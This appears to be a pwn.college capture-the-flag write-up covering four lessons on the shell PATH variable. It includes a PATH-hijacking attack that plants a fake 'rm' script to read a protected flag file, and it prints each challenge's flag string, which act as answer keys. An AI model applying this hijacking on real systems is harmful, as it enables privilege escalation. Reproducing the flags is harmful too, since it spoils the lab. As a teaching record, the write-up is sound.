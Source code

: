 # Pondering PATH

## The PATH Variable

### In this challenge we learnt about the PATH variable that has the paths to various commands, without the PATH variable, shell won't be able to execute commands like ls, rm etc.

Approach: /challenge/run deletes the flag using the rm command, by blanking out the PATH variable, the /challenge/run command can't access the rm command anymore since it doesn't have the path to it, and thus it gives us the flag

```console
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{korYF6mO9MSWez0XSHlg2UFlqwo.dZzNwUDL1ATN0czW}
```

## Setting PATH

### In this challenge we learnt how to set the PATH variable

Approach: /challenge/run uses a command called win which is in the directory /challenge/more_commands, setting the PATH variable to that directory ensures the shell can find the path of win command

```console
hacker@path~setting-path:~$ PATH=/challenge/more_commands
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{UrRh78mOv4QiWLr3I8YEhxF2MZM.dVzNyUDL1ATN0czW}
```

## Adding Commands

### In this challenge we learnt how to add our own commands to the PATH variable

Approach: 

* Make a shell executable called win which invokes the command "cat /flag"
* Add the path of that executable to the PATH variable
* Run /challenge/run

```console
hacker@path~adding-commands:~$ echo "cat /flag" > win
hacker@path~adding-commands:~$ chmod u+x win
hacker@path~adding-commands:~$ PATH=$PATH+":/home/hacker"
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{MZnCgWbo8_OA3XPbjuitkiiLDV9.dZzNyUDL1ATN0czW}
```

## Hijacking Commands

### Approach:

* The /challenge/run command invokes rm to delete the flag
* Create a new executable called rm in /home/hacker, this executable will contain commands to show us the flag
* Set PATH variable as /home/hacker
* Now when the /challenge/run command tries to invoke rm, it'll run our executable instead

```console
hacker@path~hijacking-commands:~$ echo "read var < /flag;echo \$var" > rm
hacker@path~hijacking-commands:~$ chmod u+x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{4jWi2IsD6GEbvaR8z8TTp4rRq0O.ddzNyUDL1ATN0czW}
```